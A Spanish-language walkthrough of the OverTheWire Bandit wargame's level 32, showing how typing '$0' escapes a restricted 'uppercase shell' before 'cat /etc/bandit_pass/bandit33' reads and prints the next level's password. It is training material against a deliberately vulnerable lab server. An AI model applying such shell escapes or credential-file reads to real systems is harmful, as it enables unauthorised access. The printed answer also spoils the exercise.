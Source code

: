 # Walkthrough: Bandit Level 32 to Level 33

## Objetivo del Nivel

En este nivel, debemos escapar de un entorno de shell restringido, donde la mayoría de los comandos habituales están bloqueados. El objetivo es obtener acceso a una shell normal y extraer la contraseña del siguiente nivel.

---

## Pasos para Resolver el Nivel

### 1. Acceder al servidor Bandit32

Conéctate al servidor usando SSH:

```bash
ssh bandit32@bandit.labs.overthewire.org -p 2220
```

Introduce la contraseña obtenida en el nivel anterior.

---

### 2. Explorar el Entorno Restringido

Después de iniciar sesión, notarás que el shell solo acepta comandos en mayúsculas y bloquea comandos estándar como `ls`, `cat`, `man` y `sh`. Esto indica que estamos en una "uppercase shell" que restringe la ejecución de comandos en minúsculas.

Intentar los comandos comunes devolverá errores de permiso:

```plaintext
>> ls
sh: 1: LS: Permission denied
>> sh
sh: 1: SH: Permission denied
```

Debemos encontrar una forma de ejecutar comandos en minúsculas sin ser bloqueados.

---

### 3. Escapar de la Restricción

Podemos aprovechar que la shell restringida podría permitir la ejecución de comandos mediante el uso de una variable especial. Ejecuta lo siguiente:

```plaintext
>> $0
```

Esto nos lleva a una shell normal (`bash`). Ahora tenemos acceso a todos los comandos sin restricciones.

Verificamos que podemos ejecutar comandos básicos:

```bash
ls -la
```

Esto mostrará un archivo binario llamado `uppershell`, que pertenece a `bandit33` y tiene permisos SUID.

---

### 4. Obtener la Contraseña del Siguiente Nivel

Como ahora tenemos una shell normal, simplemente ejecutamos:

```bash
cat /etc/bandit_pass/bandit33
```

Esto mostrará la contraseña para el usuario `bandit33`:

```plaintext
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
```

---

## Conclusión

Este nivel nos enseñó a evadir restricciones impuestas en un shell limitado usando `$0` para obtener acceso a una shell sin restricciones. Ahora podemos conectarnos al siguiente nivel usando:

```bash
ssh bandit33@bandit.labs.overthewire.org -p 2220
```

